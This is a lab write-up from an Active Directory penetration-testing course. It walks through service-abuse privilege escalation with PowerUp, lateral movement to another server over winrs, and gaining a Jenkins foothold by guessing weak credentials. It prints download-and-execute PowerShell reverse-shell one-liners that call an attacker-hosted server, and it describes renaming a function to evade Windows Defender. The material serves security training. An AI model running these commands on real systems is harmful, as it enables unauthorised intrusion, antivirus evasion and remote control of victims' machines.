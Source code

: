 # 🆙 Elevate Privileges & gain a shell

Task&#x20;

• Exploit a service on dcorp-studentx and elevate privileges to local administrator.&#x20;

• Identify a machine in the domain where studentx has local administrative access.&#x20;

• Using privileges of a user on Jenkins on 172.16.3.11:8080, get admin privileges on 172.16.3.11 - the dcorp-ci server.

***

For this path we'll use Powerup from PowerSploit module to check for any privilege escalation path. But we could also use WinPEAS.

```
. C:\AD\Tools\PowerUp.ps1
Invoke-AllChecks
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>This is a snip</p></figcaption></figure>

We quickly see the SeviceName is AbyssWebServer:

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### Explanation of the Situation

**Unquoted Service Path Vulnerability**

In Windows, services can be configured to run executables. When the path to the executable contains spaces and is not enclosed in quotes, it can lead to a security vulnerability known as an "unquoted service path". This vulnerability allows an attacker to place a malicious executable in a path that the service may inadvertently execute.

The command `Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\student613' -Verbose` is used to exploit this vulnerability. Here's a breakdown of what the command does:

* **Invoke-ServiceAbuse**: This is a PowerShell function from the PowerSploit framework, used to manipulate Windows services.
* **-Name 'AbyssWebServer'**: Specifies the name of the service to manipulate.
* **-UserName 'dcorp\student613'**: Specifies the user context under which the command will run. This user should have the necessary permissions to modify the service configuration or its executable path.
* **-Verbose**: Provides detailed output of the actions being performed for debugging or informational purposes.

With this information, we can use the abuse function for Invoke-ServiceAbuse and add our current domain user to the local Administrators group ->

```
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\student613' -Verbose
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The command exploits an unquoted service path vulnerability in the following way:

* **Modifies the service path**: Changes the path to execute a system command instead of the service executable.
* **Executes a privileged action**: Runs the command to add a specified user to the Administrators group, elevating the user’s privileges.
* **Restores the service configuration**: Resets the service path to its original value to cover tracks and maintain normal operations.
* **Maintains the service state**: Ensures the service remains in its initial state (stopped) to avoid detection.

Now we are part of the local administrator group. If we just logoff and logon again, and we have local administrator privileges.

He's where we are in our enumeration according a guy on discord:

> you're local admin on the studentvm machine, then you use the Find-PSRemotingLocalAdminAccess to discover you have rights to connect to dcorp-adminsrv (via winrs or PSRemoting)

Next, a good thing to do could be to identify a machine in the domain where the user student613 has local administrative access. For this we can use `Find-PSRemotingLocalAdminAccess.ps1`

<figure><img src="../../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

So we see that we have Admin access on the dcorp-adminsrv and on the student machine. We can connect to dcorp-adminsrv using winrs as the student user

```
winrs -r:dcorp-adminsrv cmd 
set username 
set computername
```

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

* `winrs`: Stands for Windows Remote Shell, a command-line tool that allows you to execute commands on a remote machine.
* `-r:dcorp-adminsrv`: Specifies the remote machine to connect to. In this case, `dcorp-adminsrv`.
* `cmd`: Launches the command prompt (`cmd.exe`) on the remote machine.

<figure><img src="../../.gitbook/assets/image (1084).png" alt=""><figcaption></figcaption></figure>

So we were able to get a shell on dcorp-adminsrv

&#x20;

<figure><img src="../../.gitbook/assets/image (1085).png" alt=""><figcaption></figcaption></figure>

***

Now let's try to have fun with a jenkins server without admin access. To do so, we need to have privileges to Configure builds

We start by going to our Jenkins “People” page:

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption><p>we can see the users present on the Jenkins instance</p></figcaption></figure>

It's good to know that Jenkins does not have password policies, so admin:admin of felix:felix could be a valid set of credentials

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

After fooling around we manage to get an access via the builduser user, he can Configure builds and Add Build Steps which will help us in executing commands.

To get our reverse shell we are going to use a slightly modified version of Invoke-PowerShellTcp from Nishang. We renamed the function InvokePowerShellTcp to Power in the script to bypass Windows Defender.

Nishang: [https://github.com/samratashok/nishang/tree/master](https://github.com/samratashok/nishang/tree/master)

We then go in the following path to create and execute a batch command ->

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

> If using Invoke-PowerShellTcp, make sure to include the function call in the script Power -Reverse - IPAddress 172.16.100.X -Port 443 or append it at the end of the command in Jenkins. Please note that you may always like to rename the function name to something else to avoid detection.
>
> powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.X/Invoke-PowerShellTcp.ps1'));Power -Reverse -IPAddress 172.16.100.X -Port 443
>
> or
>
> powershell.exe iex (iwr http://172.16.100.X/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.X -Port 443\
>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We then launch our hfs server (could work with python server, upload the invoke tcp file in the hfs directory and then build our project to trigger the script and create a reverse shell

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
powershell.exe iex (iwr http://172.16.100.13/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.13 -Port 443 
```

<figure><img src="../../.gitbook/assets/image (1086).png" alt=""><figcaption></figcaption></figure>

